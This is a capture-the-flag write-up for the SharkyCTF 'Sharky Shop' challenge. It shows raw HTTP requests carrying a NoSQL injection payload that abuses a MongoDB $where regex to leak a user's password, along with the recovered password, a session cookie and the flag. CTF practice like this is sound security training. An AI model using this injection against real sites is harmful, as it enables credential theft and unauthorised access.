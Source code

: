 # Sharky Shop

## Description

This shark selling shop has been up for too long, it can't last anymore! Its disgusting users are comparing how much they spent on it. I can't take it anymore. Get an admin access on this website and share it with me so I can take it down.

sharky_shop.sharkyctf.xyz

Creator : Remsio

Hint:
```
Mongo databases are quite popular, you might be able to trigg an error somewhere :-)
```

We could get info about users with request:

```
POST /users HTTP/1.1
Host: sharky_shop.sharkyctf.xyz
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 716

draw=9&columns%5B0%5D%5Bdata%5D=username&columns%5B0%5D%5Bname%5D=&columns%5B0%5D%5Bsearchable%5D=true&columns%5B0%5D%5Borderable%5D=false&columns%5B0%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B0%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B1%5D%5Bdata%5D=moneyspent&columns%5B1%5D%5Bname%5D=&columns%5B1%5D%5Bsearchable%5D=true&columns%5B1%5D%5Borderable%5D=false&columns%5B1%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B1%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B2%5D%5Bdata%5D=roles&columns%5B2%5D%5Bname%5D=&columns%5B2%5D%5Bsearchable%5D=true&columns%5B2%5D%5Borderable%5D=false&columns%5B2%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B2%5D%5Bsearch%5D%5Bregex%5D=false&start=0&length=10&search%5Bvalue%5D=empty&search%5Bregex%5D=false
```

## Solution

As we understand from mongodb erros the query looks like:

```
db.users.find( { $where: function() {
   return (this.username.match(/.../))
} } );

```

So, we could check password with adding regular expression.

Like:
```
return (this.username.match(/.../) && this.password.match(/../))

```

Result query:

```
POST /users HTTP/1.1
Host: sharky_shop.sharkyctf.xyz
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 159
Origin: http://sharky_shop.sharkyctf.xyz
Connection: close
Referer: http://sharky_shop.sharkyctf.xyz/customers
Cookie: sessionId=s%3AqwtjIJU7AVLaJhqgAhEynYuT_iXVOb2K.mgjqkw7qqGvluA7Xon65ukwMAK%2BW%2BVdmAf4DoPsoc0g

draw=1&start=0&length=10000&search[value]=<@urlencode_not_plus_3>jackyard/)&&this.password.match(/^Pzk1TvGxYwq10J6$<@/urlencode_not_plus_3>&search[regex]=false
```

Flag:

shkCTF{where_IS_MY_N0SQLI?_94dbabf632759f09956c283784408162}
